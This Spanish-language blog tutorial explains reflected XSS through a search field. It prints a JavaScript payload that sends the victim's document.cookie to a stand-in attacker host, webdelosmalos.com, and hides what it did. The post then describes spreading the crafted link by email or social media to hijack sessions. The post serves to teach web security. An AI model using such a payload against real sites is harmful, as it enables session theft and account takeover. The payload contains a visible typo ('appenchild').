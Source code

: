 ```yaml
---
layout: post
title: Ataque XSS Reflejado
category: Hacking
comments: true
description: El ataque XSS Reflejado consiste que el atacante comparta un link creado a sus victimas para que estas lo ejecuten y por conseguir su sesion o control sobre su navegador. El vector de ataque XSS o Cross Site Scripting, es una de las vulnerabilidades más extendidas en las paginas web, según OWASP es la tercera en importancia en su TOP 10.
tags:
    - hijacking
    - hacker
    - owasp
    - xss
    - intro
---
```


El ataque XSS Reflejado consiste que el atacante comparta un link creado a sus victimas para que estas lo ejecuten y por conseguir su sesion o control sobre su navegador.

Según la Open Web Application Security Project (Owasp), es desde ya casi diez años, la vulnerabilidad numero tres, de su [top diez](https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS)){:target="_blank"}. 

## Para practicar

Te recomiendo que uses esta pagina web: [hackyourselffirst.troyhunt.com](http://hackyourselffirst.troyhunt.com){:target="_blank"}. Es una pagina vulnerable hecho a posta para poder probar todas las vulnerabilidades web de Owasp, esta creada por el hacker etico [Troy Hunt](https://www.troyhunt.com/){:target="_blank"}. 
Tiene varios cursos de hacking en [Pluralsight](https://app.pluralsight.com/library/){:target="_blank"} te recomiendo que te subscribas a Pluralsight y los hagas.

## Ejecutando el ataque

En este ataque conseguiremos robar las cookies de sesion del usuario que entre al enlace que hemos pasado. 

Por ejemplo en nuestra web *miejemplo.com* en el buscador, buscamos por lechugas, y como vimos antes lo que ejecutamos en el buscador se refleja en el html sin niguna defensa, es decir si escribieramos < i >lechugas</ i > saldria *lechugas*, por lo que buscamos la palabra "lechugas" en el codigo fuente de la aplicación.
Al hacerlo vemos que esta el termino en varios sitios, y uno de ellos esta en el javascript.

{% highlight html linenos %}

  $('#searchTerm').val('lechugas');


{% endhighlight %}

Asi que podriamos montar un ataque que nos diera las cookies de sesion y asi poder acceder a la cuenta del usuario. ver [¿Que es session hijacking?]({% post_url 2017-05-26-que-es-session-hijacking %})


Este seria nuestro payload o codigo malicioso que añadiriamos a la url para pasarselo a nuestra victima:


{% highlight html linenos %}

  '); var img = document.createElement("img");img.src="http://webdelosmalos.com/LogCookies?cookies="+document.cookie;document.body.appenchild(img);$('h2').text('todo ok');//

{% endhighlight %}

EL codigo explicado seria asi:

{% highlight html linenos %}

'); 
var img = document.createElement("img");
img.src="http://webdelosmalos.com/LogCookies?cookies="+document.cookie;
document.body.appenchild(img);
$('h2').text('todo ok');
//

{% endhighlight %}

__linea 1__ como en slq injection cerramos las comillas y parentesis de la busqueda original para injectar nuestro payload en el javascript

__linea 2__ creamos un elemento img (tag imagen de html) y lo guardamos en una variable.

__linea 3__ en elemento img creado anteriormente le añadimos la url, deberia ser una imagen cualquiera, pero es de nuestra web mala y en pasamos como parametro los datos de las cookies de la victima.

__linea 4__ añadimos nuestra imagen la body del html

__linea 5__ para que el empleado no sospeche añadimos un texto en donde deberia ir el texto de busqueda original.

__linea 6__ igual que en el sql injection, todo lo que vaya posterior a nuestro payload lo comentamos para que no nos afecte.

Y con esto, solo necesitariamos añadirlo a la url original y pasar en enlace por las redes sociales, por email... y que nuestra victima picara, y al momento tendriamos en nuestra web las cookies de sesion de la victima, ya podriamos entrar como ella.




